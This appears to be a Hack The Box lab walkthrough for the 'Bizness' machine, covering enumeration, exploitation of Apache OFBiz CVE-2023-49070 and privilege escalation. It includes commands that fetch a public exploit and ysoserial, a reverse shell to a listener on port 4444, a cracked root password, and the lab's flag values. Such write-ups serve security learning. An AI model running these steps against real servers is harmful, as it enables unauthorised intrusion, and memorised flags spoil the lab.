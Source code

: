  
# Bizness

<p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/b394bd03-e005-41b0-bb83-60f236f052d4" />
</p>



Embrace the dawn of a fresh season as we unveil the latest additions to the gaming arena. Welcome to the exhilarating Season 4, where innovation and excitement collide. Leading the charge is the formidable Bizness, a dynamic machine that promises both challenge and reward. Boasting a lucrative 20-point bounty and an accessible easy difficulty level, Bizness beckons all daring adventurers. Without further ado, let's dive headfirst into the world of opportunities and embark on a thrilling journey – it's time to engage in some serious 'bizness'!


## Setting the Stage 
Before delving into the intricacies, our initial step involves the addition of the IP and domain to the crucial /etc/hosts file. This crucial setup ensures that the IP is recognized, laying the foundation for seamless interactions. Execute the command 'sudo nano /etc/hosts' to initiate this imperative configuration.

```bash
echo "10.10.11.252 bizness.htb" | sudo tee -a /etc/hosts 
```

## Enumeration with Nmap
Nmap serves as the indispensable compass, unveiling the intricacies of system architecture and potential vulnerabilities with its versatile commands

```bash
nmap -Pn -sC -sV 10.10.11.252
```
As we initiate enumeration, a preliminary port scan discloses the accessibility of ports 22, 80, and 443.
![Bizness](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/2e2cdf84-96c0-453e-acf2-083c71d1a947)


## Exploring the Vast Horizons of the Web .
Now let’s move to the next step for enumeration. Let’s use dirsearch tool to search for other endpoints.

```bash
sudo apt-get install dirsearch
dirsearch -u https://bizness.htb -e*
```

After using dirsearch we get login endpoints.

After doing directory enumeration we see there directory of /control/login 
![Bizness Login](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/681a5c2c-5923-4f93-9446-aaf5add44414)


## Art of Exploitation: Navigating Security Challenges :
"Upon entering the login page, it becomes evident that the system employs the Apache OFBiz web framework. Subsequent investigation yielded the following insights."



_There Vulnerability of ofbiz-CVE-2023–49070-RCE-POC_

- Link of exploitation: — https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/tree/main?tab=readme-ov-file


```bash
sudo update-alternatives — config java

use “ 1 /usr/lib/jvm/java-11-openjdk-amd64/bin/java 1111 manual mode”
```

Further exploration revealed....
```bash
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
```

```bash
wget https://raw.githubusercontent.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/main/exploit.py
```

Now we see that we can execute any command by using the above exploit . So, we try to get reverse shell.

## Executing the Payload

```bash
python3 exploit.py https://bizness.htb/ shell ip:4444
```

Subsequently, execute on a second terminal.
```bash
nc -lnvp 4444
```


then you will get user shell ....

## User Flag :

Upon successfully obtaining the reverse shell, navigating directories became a challenge. Fret not, as I've got you covered. Change the directory to /home/ofbiz, where you'll find a text file named user.txt. Simply execute 'cat' on the file, and voila! You've secured the user flag. 


```bash
ofbiz@bizness:/opt/ofbiz$ cd /home/ofbiz
cd /home/ofbiz
ofbiz@bizness:~$ ls
ls
user.txt
ofbiz@bizness:~$ cat user.txt
cat user.txt
d96f0aefb0311de8c1da1c174db554d7
```


We successfully secured the User flag as 'd96f0aefb0311de8c1da1c174db554d7' However, the journey to the root flag is yet to be completed. No need to worry, though—I've got your back.

Upon investigation, we uncovered the Derby database and a hash: '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN.' Breaking it down, '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN' signifies the use of the SHA-1 hashing algorithm ('$SHA$'), 'd' for salt, and the remaining string as the hashed value. Let's dive deeper into the data to uncover the next steps.


## Privilege Escalation: Elevating System Access Safely 

Execute this Python script to decode the SHA-1 hash.

```bash
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN
```
```bash
python3 decode.py
```

After successfully decoding the SHA-1 hash with the provided Python script, the revelation of the password 'monkeybizness' marks a pivotal moment in our journey. Leveraging this newfound credential, we elevate our privileges by executing 'su' and entering the passphrase. Transitioning into the root directory, we discover the existence of a file named 'root.txt.' As we delve into its contents, the triumphant sight of the root flag brings our exploration to a gratifying conclusion. This process underscores the significance of careful navigation and strategic execution in the realm of privilege escalation, culminating in the attainment of the ultimate access level .

```bash
password :  'monkeybizness'
```

cat root.txt you will get root password.
```

ofbiz@bizness:~$ su root
su root
Password: monkeybizness

ls
user.txt
cd /root
ls
root.txt
cat root.txt
41b08f62f103ded31455f3f3a8be5cde

```

 <hr>
 </hr>

## CVE-2023-49070

 Pre-auth RCE in Apache Ofbiz 18.12.09. It's due to XML-RPC no longer maintained still present. This issue affects Apache OFBiz: before 18.12.10.  Users are recommended to upgrade to version 18.12.10

 Reference :  
 - https://nvd.nist.gov/vuln/detail/CVE-2023-49070
 - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-49070
 

<p align="center">
   <a href="https://www.hackthebox.com/achievement/machine/672066/582" >
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/6c750e80-d65b-4a0b-91f2-d67192dffee9" align="center" alt="Bizness-htb pwnd by Mr.Govind" />
   <a/>
</p>


## Conclusion

In conclusion, the exploration of Bizness showcased the integration of meticulous enumeration, vulnerability exploitation, and privilege escalation techniques. From the initial setup to the triumphant acquisition of the root flag, each step contributed to a comprehensive understanding of the machine's security landscape. The journey emphasized the importance of strategic thinking and demonstrated the successful navigation of challenges inherent in ethical hacking. As we bring this exploration to a close, it stands as a testament to the continuous learning and adaptability required in the dynamic field of cybersecurity. 

